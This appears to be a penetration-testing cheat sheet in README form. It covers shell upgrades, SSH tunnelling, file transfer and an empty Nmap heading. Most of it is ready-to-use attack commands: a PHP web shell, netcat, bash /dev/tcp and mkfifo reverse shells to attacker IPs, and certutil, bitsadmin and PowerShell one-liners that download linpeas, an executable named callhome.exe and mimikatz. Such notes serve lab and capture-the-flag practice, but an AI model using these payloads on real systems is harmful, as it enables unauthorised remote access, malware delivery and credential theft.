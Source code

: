 # Shell ✅
```bash
/bin/bash -ip
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm‌‌
export SHELL=bash

CTRL + Z
stty raw -echo;fg
reset
xterm‌‌
```
# Payloads_Shell ✅
```bash
<?php echo system($_GET["cmd"]); ?>
nc 10.11.99.141 5555 -e bash
ncat 10.11.99.141 5555 -e bash
/bin/bash -c /bin/bash -i >& /dev/tcp/10.9.184.226/1112 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.14.85.242 9001 >/tmp/f
```
[Other_Reverse_Shell_Site](https://www.revshells.com/)
# SSH Proxies
```bash
ssh -L 7777:localhost:8888 user@192.168.0.100
ssh -R 12340:localhost:9999 user@192.168.0.100
ssh -C2qTnN -D 1080 user@target.host
ssh -tt -L8080:localhost:8157 solcoteh@10.10.10.10 ssh -t -D 8157 solcoteh@10.10.10.10 -p 222
-oHostKeyAlgorithms=+ssh-rsa
```
# File_Transfer ✅
## linux ✅
```bash
python3 -m http.server 8000
wget http://10.10.10.10:8000/linpeas.sh
curl http://10.10.10.10:8000/linpeas.sh -O linpeas.sh
```
## windows ✅
```bash
certutil -urlcache -split -f http://10.10.10.10:8000/namefile.txt C:\Users\Public\namefile.txt
powershell -c wget "http://10.10.10.10:8000/namefile.txt" -OutFile "C:\Windows\Temp\namefile.txt"
powershell -c "Invoke-WebRequest -Uri 'http://10.10.10.10:8000/namefile.txt' -OutFile 'C:\Windows\Temp\namefile.txt'"
bitsadmin /transfer myDownloadJob /download /priority normal http://10.10.10.10:8000/namefile.txt C:\Users\temp\namefile.txt
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.10.10:8000/callhome.exe','callhome.exe')"

c:\Python27\python.exe -c "import urllib; print urllib.urlopen('http://10.10.10.10:8000/mimikatz_trunk.zip').read()" > mimikatz_trunk.zip
```
# Enumeration ✅📚
## Nmap_Enumeration ✅
```bash
```